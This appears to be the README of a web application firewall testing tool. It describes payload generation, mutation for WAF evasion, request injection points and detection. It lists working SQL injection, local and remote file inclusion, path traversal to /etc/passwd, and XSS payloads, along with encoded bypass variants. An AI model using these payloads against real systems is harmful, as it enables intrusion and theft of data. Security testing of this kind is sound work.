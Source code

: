 WAF Testing Tool
================

When one finds a vulnerability in source code of a web application using white box approach one of the challenges that may arise is to bypass a web application firewall. Speaking about bypass methods, it is important for a web application firewall not only to have an extensive list of signatures that can block the vast majority of attacks but also to be immune to various evasion techniques by properly normalizing input data. For the sake of comprehensive web application firewall testing it is not enough just to use web application vulnerability scanner. 

The proposed methodology makes use of attack payloads that are mutated in various ways. It allows to test web application firewalls more thoroughly.

The picture below demonstrates architecture of an application that had been developed to test and evaluate effectiveness of web application firewalls.

.. image:: http://i.imgur.com/myTosWE.png

The main components of the application are:

- module that generates base payloads
- module that mutates payloads
- HTTP request sending module
- detection module

Base payload generation module loads patterns and generates a set of attack vectors.

Base payload is a vector that exploits a vulnerability in source code of a web application and which can be tracked in detector module depending on the result of exploitation. For example, for an SQL Injection successful exploitation can be confirmed by an SQL query structure modification.

Base payload pattern looks like as follows:

```
1 union {|all }select {version()|1|'AA'}, {database()|(select 1)|2} from {|dual|information_schema.tables}
```

All possible combinations of the base payload are generated, after that this set is passed to mutation module.

Examples of base payloads:

```
1 union select version(), 2 from dual 
1 union all select 'AA', (select 1) from information_schema.tables 
1 union select 1, 2
```

Mutation is a modification of the base payload which is aimed at bypassing data normalization routines implemented in web application firewall. Mutation should modify the base payload to be completely different however it should remain effective at the same time. Mutation module receives a set of generated base payloads and loads from the database mutation techniques specific for the particular vulnerability type. Each mutation has its subtype so that mutation module was able to operate with mutually exclusive mutation techniques. The list of mutation techniques was compiled using widely known WAF bypass techniques as well as methods based on our own experience.

After all mutations are generated the output set is passed to request sender.

Examples of mutations for SQL Injection:

- character case modification
- replacement of whitespace characters with its analogues
- replacement of operators with its analogues
- SQL query modification with the use of complex structures specific for particular RDBMS

As a result, for each base payload the following combinations could be generated:

```
1 union select version(), 2 from dual 
1%0BUnIoN%0BsElEcT%0BvErSiOn(),%0B2%0BfRoM%0BdUaL 
1 /*!12345UNION ALL SELECT VERSION(), 2 FROM*/ DUAL 
1--%0Aunion--%0Aselect--%0A@@`version`,--%0A3-1--%0Afrom--%0Adual
```

Overall number of mutations is over 50.
Overall number of mutation combinations of base payloads depending on the type of vulnerability varies from 1000 to 40000.

Request sender forms HTTP requests and transports them to the target web application through WAF. It also sends responses from the application to the detection module. HTTP requests are formed in such a way so that they could cover all attack vector channels such as urlencoded POST data, multipart, parameter names, etc. Attack vectors are injected into:

- GET, POST, Cookie parameters
- GET, POST, Cookie array indeces
- HTTP headers
- Contents, Content-Type and filename of uploaded file

Overall number of attack requests is about 500000.

Detection module processes responses that were received from request sender module. Finally, it makes decision and adds it to the final report.

Base payloads that are used:

```
1 union select {version()|1111111111|'AAAAAAAA'}, {222222222|database()|(select user())|'BBBBBBBBBBBBB'} {|from information_schema.tables} 

1 and {1=1|99=99|98{!=|<>}97} 

(-1)union(select({1|load_file('/etc/passwd')}),{(2)|(id)from(news)|(user)from(mysql.user){|having(user)like('root')}}) 

1 union select * from (select 11)a join (select {22|user from mysql.user})b {|into {outfile|dumpfile} '/blah/blah/testfilename'} 

(select*from(select name_const('123',1),name_const('123',1))a) 

ExtractValue(1,concat(0x5c,'123')) 

(select count(*) from {mysql.user|information_schema.tables|news|(select 1 union select 2 union select 3)x} group by concat('123',floor(rand(0)*2))) 

(@:=1)||@ group by concat('123',@:=@-1)having @||min(@:=0) 

1 into {outfile|dumpfile} '/blah/blah/blahfilenameblah' lines terminated by 'payload' 

data:,<?php echo 123; ?> 

php://input 
 
php://filter{|/blah/blah/blah}/{zlib.deflate|read=zlib.deflate|convert.base64-encode|read=convert.base64-encode|read}{|/blah/blah/blah}/resource=longfilenameindexblah{|.php|.txt|.png} 

{http{|s}://|ftp://username:password@}site.com/{|folder1/|folder2/folder3/}filenameblah{.php|.txt|.gif} 

{|file://}{/../../../../../..}{/aaaaaaaaaaaaaaaaaaaa/../../../../../..|..........................................................................|././././././././././././././././././././././././././././.}{/etc/{passwd|hosts}|/proc/version} 

{|file://}{/../../../../../..}{/aaaaaaaaaaaaaaaaaaaa/../../../../../..|..........................................................................|././././././././././././././././././././././././././././.}/boo{t.ini|<<|>>>>} 

<script blah>123</script blah> 

<script blah src="{http{:|://}site.com/blah|data:,123}" blah>blah</script blah> 

<{a|abbr|acronym|address|applet|area|b|base|basefont|bdo|big|blockquote|body|br|button|caption|center|cite|code|col|colgroup|dd|del|dfn|dir|div|dl|dt|em|fieldset|font|form|frame|frameset|head|h1|h2|h3|h4|h5|h6|hr|html|i|iframe|img|input|ins|kbd|label|legend|li|link|map|menu|meta|noframes|noscript|object|ol|optgroup|option|p|param|pre|q|s|samp|script|select|small|span|strike|strong|style|sub|sup|table|tbody|td|textarea|tfoot|th|thead|title|tr|tt|u|ul|var} blah {onload|onunload|onblur|onchange|onfocus|onreset|onselect|onsubmit|onabort|onkeydown|onkeypress|onkeyup|onclick|ondblclick|onmousedown|onmousemove|onmouseout|onmouseover|onmouseup}=123 blah> 

<a href="{javascript:123|data:,123}">test</a> 

+ADw-script+AD4-123+ADw-/script+AD4-
```